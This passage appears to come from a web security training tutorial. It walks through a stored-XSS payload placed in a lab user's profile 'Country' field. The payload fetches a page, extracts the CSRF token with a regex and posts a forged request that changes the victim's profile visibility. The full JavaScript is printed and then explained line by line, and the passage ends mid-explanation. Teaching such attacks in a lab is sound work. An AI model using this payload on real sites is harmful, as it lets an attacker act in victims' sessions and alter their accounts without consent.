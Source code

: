 Forward all requests so that Ela Stienen's profile becomes public.

Let us focus on the payload we should specify in the Country field of Ela Stienen's profile to successfully execute a CSRF attack that will change the victim's visibility settings (From private to public and vice versa).

The payload we should specify can be seen below:
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```
Let us break things down for you.

Firstly we put the entire script in `<script>` tags, so it gets executed as valid JavaScript; otherwise, it will be rendered as text:
```javascript
var req = new XMLHttpRequest();
```
The script snippet above creates an ObjectVariable called `req`, which we will be using to generate a request. `var req = new XMLHttpRequest();` is allowing us to get ready to send HTTP requests.
```javascript
req.onload = handleResponse;
```
In the script snippet above, we see the `onload` event handler, which will perform an action once the page has been loaded. This action will be related to the `handleResponse` function that we will define later.
```javascript
req.open('get','/app/change-visibility',true);
```
In the script snippet above, we pass three arguments. `get` which is the request method, the targeted path `/app/change-visibility` and then `true` which will continue the execution. Summarizing, this GET request corresponds to the click on "Change Visibility" button.
```javascript
req.send();
```
The script snippet above will send everything we constructed in the HTTP request.
```javascript
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
```
The script snippet above defines a function called `handleResponse`.
```javascript
var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
```
The script snippet above defines a variable called `token`, which gets the value of responseText from the page we specified earlier in our request. `/name="csrf" type="hidden" value="(\w+)"/)[1];` looks for a hidden input field called `csrf` and `\w+` matches one or more alphanumeric characters. In some cases, this may be different, so let us look at how you can identify the name of a hidden value or check if it is actually "CSRF".
